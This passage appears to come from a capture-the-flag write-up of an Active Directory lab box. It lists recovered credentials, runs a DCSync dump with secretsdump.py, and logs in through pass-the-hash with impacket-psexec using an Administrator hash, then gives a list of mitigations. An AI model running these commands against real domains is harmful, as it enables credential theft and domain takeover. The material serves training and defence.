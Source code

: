## Credentials

```bash
fsmith : Thestrokes23
hsmith : Thestrokes23
svc_loanmgr : Moneymakestheworldgoround!
```


## Privilege Escalation

Let’s perform DCSync:

```bash
secretsdump.py egotistical-bank.local/svc_loanmgr@$IP
```

![image.png](image%2020.png)

Now let’s get access with Administrator hash:

```bash
impacket-psexec Administrator@$IP -hashes :823452073d75b9d1cf70ebdf86c7f98e
```

![image.png](image%2021.png)

## Mitigation

- **Enforce Kerberos pre-authentication** for all users to protect against ASREPRoasting attacks.
- Implement **strong password policies** and monitor for weak or guessable credentials.
- Avoid storing plaintext credentials for **auto-login** and disable the feature unless absolutely necessary.
- Regularly audit user privileges using tools like **BloodHound** and remove unnecessary **replication rights**.
- Limit and monitor **WinRM access**, preferably using firewalls and allow-lists.
- Monitor **Domain Controller logs** for replication-related events that could indicate a **DCSync attack**.
- Use **LAPS** (Local Administrator Password Solution) to manage local admin passwords securely.
